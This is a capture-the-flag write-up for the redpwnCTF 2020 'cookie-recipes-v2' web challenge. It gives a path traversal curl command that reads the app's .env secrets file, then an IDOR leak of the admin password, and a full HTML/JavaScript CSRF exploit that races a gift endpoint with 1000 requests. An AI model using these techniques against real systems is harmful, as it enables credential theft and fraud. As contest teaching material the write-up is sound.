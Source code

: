 ## Owner:

> CaptainFreak

#### Solved?

 - No

#### Tried:

No.

#### Solutions:

1. Unintended Solution:

The application uses dotenv to store the flag and also a path traversal vulnerability (unintended by the author)

dotenv fetches values from a file called .env. So we can get the flag by fetching this file!

```sh
curl --path-as-is https://cookie-recipes-v2.2020.redpwnc.tf/../../../../../../../app/.env

```

2. Intended Solution

1. From reading source you get to know that admin user is pushed into DB with id=0 and random password.

2. By IDOR on `GET /api/userInfo?id=0` you get the password and data of admin.

3. Observe that app is vuln to CSRF by "Content-Type","text/plain", we can CSRF the request of gift granting now because we have password avaiable from IDOR too. But a user can only be granted once. 

3.2 Race condition comes to rescue.

4. Now by Making admin bot visit our site with CSRF exploit code:

```html

<html><script>
    async function jsonreq() {
        var xhr = new XMLHttpRequest()
        xhr.open("POST","https://cookie-recipes-v2.2020.redpwnc.tf/api/gift?id=13186538601383376495", true);
        xhr.withCredentials = true;
        xhr.setRequestHeader("Content-Type","text/plain");
        xhr.send(JSON.stringify({"password":"n3cdD3GjyjGUS8PZ3n7dvZerWiY9IRQn"}));
    }
    for (var i = 0; i < 1000; i++) {
        jsonreq();
    }
</script></html>

```

5. Because code has RaceCondition bug in code where admin grants us gift points, ideally admin can only grant one gift per user but with this racing this check, Admin bot gives us enough credit to buy the Cookie recipe with flag in it.

6. Good chall, wish had tried properly.

7. Reference: https://ctftime.org/task/12103